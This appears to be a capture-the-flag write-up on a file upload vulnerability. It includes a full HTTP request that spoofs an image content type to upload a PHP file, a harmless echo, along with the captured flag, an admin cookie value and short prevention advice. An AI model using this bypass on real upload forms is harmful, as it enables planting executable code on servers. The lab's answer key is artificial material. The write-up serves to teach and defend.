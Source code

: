 # File Upload Vulnerability Definition

File upload vulnerability is a common security issue found in web applications. Whenever the web server accepts a file without validating it or keeping any restriction, it is considered as an unrestricted file upload.  
In many web servers, the vulnerability depends entirely on its purpose, allowing a remote attacker to upload a file with malicious content. This might end up in the execution of unrestricted code in the server. File upload vulnerability can be exploited in many ways, including the usage of specially crafted multipart form-data POST requests with particular filename or mime type.

# Steps

This vulnerability exist on `http://IP_ADDRESS/index.php?page=upload`  
We try to upload php file  
output:

```
Your image was not uploaded.
```

So we use Burp suite to change the content type of file send to server
Request:

```
POST /index.php?page=upload HTTP/1.1
Host: IP_ADDRESS
Content-Length: 429
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://IP_ADDRESS
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiFDBox1rlqcnR6Qg
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Referer: http://IP_ADDRESS/index.php?page=upload
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: close

------WebKitFormBoundaryiFDBox1rlqcnR6Qg
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryiFDBox1rlqcnR6Qg
Content-Disposition: form-data; name="uploaded"; filename="file_upload.php"
Content-Type: image/jpg

<?php

echo "Work!";

?>
------WebKitFormBoundaryiFDBox1rlqcnR6Qg
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryiFDBox1rlqcnR6Qg--
```

And the file succesfully uploaded and we get the flag!

# Flag: 46910D9CE35B385885A9F7E2B336249D622F29B267A1771FBACF52133BEDDBA8

# Prevent File Upload Vulnerability

### File type verification

File types are usually defined by their file extensions. Each file type usually has several corresponding file extensions. The file extensions enable the operating system and users to easily identify the type of file.  
Attackers can bypass security systems and spoof operating systems and users by changing file extensions. For example, hackers can rename a malicious .exe file into a legitimate-looking .docx file. To prevent this, you must verify the file type before allowing upload.

### Restrict specific file extensions

A whitelist provides system access only to administrator-approved programs, IPs and email addresses. Creating a white list of allowed files enables you to avoid uploads of potentially malicious content to your site. The white list can include executables, scripts and any other file type.

# Resources

### [Unrestricted File Upload OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

### [Exercise 1](https://www.hacksplaining.com/exercises/file-upload)
